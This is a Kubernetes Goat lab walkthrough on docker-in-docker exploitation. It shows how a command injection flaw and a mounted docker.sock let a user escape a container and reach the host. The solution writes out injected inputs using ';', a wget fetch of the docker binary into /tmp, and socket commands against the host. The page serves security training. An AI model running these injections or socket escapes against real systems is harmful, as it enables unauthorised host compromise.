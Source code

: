 ```yaml
---
title: ⎈ DIND (docker-in-docker) exploitation
sidebar_label: Welcome
sidebar_position: 2
description: Learn how to exploit Docker IN Docker socket in containers - Kubernetes Goat Scenario 🚀
slug: docker-in-docker-exploitation-in-kubernetes-containers/welcome
---
```


# ⎈ DIND (docker-in-docker) exploitation

## 🙌 Overview

In this scenario, we will be focusing on the common and standard ways how to build systems and pipelines that leverage container sockets to create, build and run containers from the underlying container runtime. This has been exploited since the early days of the container ecosystem and even today we see these misconfigurations/use cases in the real world. 

![Scenario 2](../images/scenario-2.png)

By the end of the scenario, we will understand and learn the following

1. You will learn to test and exploit the container UNIX socket misconfigurations
2. Able to exploit container and escape out of the docker container
3. Learn common misconfigurations in pipelines and CI/CD build systems

### ⚡️ The story

Most of the CI/CD and pipeline systems use the underlying host Docker runtime to build containers for you within the pipeline by using something called DIND (docker-in-docker) with a UNIX socket. Here in this scenario, we try to exploit this misconfiguration and gain access to the host system by escaping out of the docker container.

:::info

- To get started with the scenario, navigate to [http://127.0.0.1:1231](http://127.0.0.1:1231)

:::

![Scenario 2 welcome](../images/sc-2-1.png)

### 🎯 Goal

The goal of this scenario is to escape out of the running docker container to the host system where the container is running and able to access and perform actions on the host system.

:::tip

If you are able to obtain container images in the host system then you have completed this scenario. But definitely, you can advance beyond this exploitation as well by performing post-exploitation.

:::

### 🪄 Hints & Spoilers

<details>
  <summary><b>✨ Do you know how to run multiple commands in Linux? </b></summary>
  <div>
    <div>The application running here has command injection vulnerability. You can exploit this by using the <b>;</b> delimiter when passing the input 🙌</div>
  </div>
</details>

<details>
  <summary><b>✨ Able to run system commands, not sure how to access containers? </b></summary>
  <div>
    <div>Identify the mounted UNIX socket volume, and use docker binary to communicate with that with <b>-H</b> flag 🎉</div>
  </div>
</details>

## 🎉 Solution & Walkthrough

### 🎲 Method 1

- Start by checking that DNS resolution is working for your cluster. If this doesn't work, check to see if you have a DNS service like CoreDNS running on your cluster.

```bash
www.google.com
```

:::tip
- if you get your local domain appended, try using

```bash
www.google.com.
```

- If you have to do this, you should always add a . after a url, even in wget commands. The extra dot is required is that kubernetes has a default option of ndots:5 in /etc/resolv.conf, which is verifiable in this scenario. This means that unless a minimum of 5 dots are present, the domain is not assumed to be a FQDN.
:::


- By looking at the application functionality and dabbling with the input and output, we can see it has standard command injection vulnerability. Assuming it's running in a Linux container we can use the `;` delimiter to run/pass other commands

```bash
127.0.0.1; id
```

![Scenario 2 Command Injection](../images/sc-2-2.png)

- As we can see it returns the response for the `id` command, now we can analyze the system and see what potential information we can obtain

- It contains `docker.sock` mounted into the file system as it's not available commonly in standard systems

```bash
; mount
```

![Scenario 2 mount](../images/sc-2-3.png)

- Wow! we can see the `/custom/docker/docker.sock` mounted in the file system and assuming it's mounted from the host system we need to talk to it for communicating with the UNIX socket

:::tip

We can use multiple methods for communicating with the `docker.sock` UNIX socket. Some of them include [official docker binary](https://download.docker.com/linux/static/stable/), or a simple `curl` program as well.  

:::

- Next we can download the official `docker` static binary from the internet [https://download.docker.com/linux/static/stable/](https://download.docker.com/linux/static/stable/). In order to determine which binary we need, we can run the following command for system discovery

```bash
;uname -a
```

- We can examine the output to determine our system architecture and OS, then download the appropriate docker binary to the container. For example, if our target system is a x86\_64 Linux box, we can use the following command

```bash
;wget https://download.docker.com/linux/static/stable/x86_64/docker-19.03.9.tgz -O /tmp/docker-19.03.9.tgz
```

- We can extract the binary from the `docker-19.03.9.tgz` file so that we can use that to talk to the UNIX socket

```bash
;tar -xvzf /tmp/docker-19.03.9.tgz -C /tmp/
```

![Scenario 2 extract binary](../images/sc-2-4.png)

- Now we can access the host system by running the following docker commands with passing `docker.sock` UNIX socket

```bash
;/tmp/docker/docker -H unix:///custom/docker/docker.sock images
```

![Scenario 2 list host images](../images/sc-2-6.png)

- Hooray 🥳 , now we can see that it has a lot of container images in the host system. We can now use different docker commands to gain more access and further exploitation

## 🔖 References

- [Protect the Docker daemon socket](https://docs.docker.com/engine/security/protect-access/)
